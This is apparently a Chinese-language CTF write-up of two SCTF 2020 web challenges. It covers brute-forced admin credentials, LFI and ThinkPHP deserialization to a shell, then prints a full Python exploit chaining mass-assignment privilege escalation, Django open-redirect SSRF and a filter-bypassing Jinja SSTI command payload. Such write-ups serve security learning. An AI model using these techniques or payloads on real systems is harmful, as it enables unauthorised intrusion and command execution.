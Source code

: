 ```yaml
---
title: SCTF 2020 两道Web题 Writeup
tags: 
    - Writeup
    - CTF
date: 2020/7/7
---
```


## UnsafeDefenseSystem

PHP/5.6.26, tp 5.0.24
经过一番吐血的信息搜集，看到了这个破静态站的源码里竟然有注释  

{% asset_img hint.png hint in comment %}

> 我要对出题人使出极限一换一

访问/protect.py能看到一个超长的憨批监控脚本，其实也不用看  
在静态站注释提示的/public/nationalsb/login.php的注释中又看到了关于密码的提示

{% asset_img passwd_hint.png passwd_hint %}

通过爆破得到用户名密码：

```text
Admin1964752
DsaPPPP!@#amspe1221
```

后台存在lfi。经过一番读文件，看到index controller中存在反序列化点

{% asset_img entry.png unserialize entry %}

结合上文所知道的thinkphp版本可以搜到:

https://althims.com/2020/02/07/thinkphp-5-0-24-unserialize/  
https://xz.aliyun.com/t/7594

出题人可能是想让条件竞争过protect.py，但是实际上我们可以往/tmp目录底下写文件，并且在nationalsb那里包含这一文件，最终拿到shell

{% asset_img phpinfo.png phpinfo %}

## jsonhub

白盒审计。对外开放的是web1，一个Django服务，内网还有个flask。

首先整理思路：首先要过那个django的token，然后ssrf请求flask_rpc，这样才能带上Content-Type发POST请求

{% asset_img create_user.png User creation flaw %}

很明显，注册的时候参数完全可控，也就是说可以伪造管理员身份。将两个字段，`is_superuser`与`is_staff`都设置为True，就能访问 `http://39.104.19.182/admin/app/token/` 拿到token了。

在请求后方flask服务前，django服务对`REMOTE_URL`进行了验证。由于题目部署在了docker里，访问公网ip时`REMOTE_URL`实际上是172.多少多少（即使不在docker里也是公网ip）。

https://xz.aliyun.com/t/3302  
利用CVE-2018-14574漏洞进行跳转即可

再看第二个服务：

```python
@app.before_request
def before_request():
    data = str(request.data)
    log()
    if "{{" in data or "}}" in data or "{%" in data or "%}" in data:
        abort(401)
...
    json.loads(...)
```

python中的json模块在解析json时会自动将转义过的字符恢复，所以可以用`"\u007b"`来绕过`before_request`
关于表达式的正则过滤，由于对符号的过滤不严格导致了一个非预期，甚至完全不需要管num1和num2：

exploit:

```python
from requests import Request, session, get, post
from bs4 import BeautifulSoup
from base64 import b64encode
import json
HOST = 'http://39.104.19.182'


ses = session()
USER = 'frkasdf'
PASS = 'qwer'

# session 默认keep-alive，这个服务端好像有点连接性问题，所以单独请求
post(HOST + '/reg/', json={
    'username': USER,
    'password': PASS,
    'is_staff': True,
    'is_superuser': True
}).json()['code']

ses.post(HOST + '/login/', json={
    'username': USER,
    'password': PASS,
})

page = BeautifulSoup(get(
    HOST + '/admin/app/token/', cookies=ses.cookies
).text, 'lxml')
token = page.find('td', attrs={'class': 'field-Token'}).text

ssti = '{{config.__class__.__init__.__globals__["os"].popen("/readflag").read() + ""}}'

payload = ('{' + json.dumps({
    'num1': '', 'num2': '', 'symbols': ssti,
})[1:-1].replace('{', '\\u007b').replace('}', '\\u007d') + '}')

payload = b64encode(payload.encode()).decode()

req = Request('GET', HOST + '//127.0.0.1:8000/flask_rpc', params={
    'methods': 'POST',
    'url': 'http://localhost:5000/caculator',
    # flask在:5000
    'data': payload
}).prepare()

print(json.loads(ses.post(HOST + '/home/', json={
    'url': req.url,
    'token': token
}).json()['message'])['message'])
```
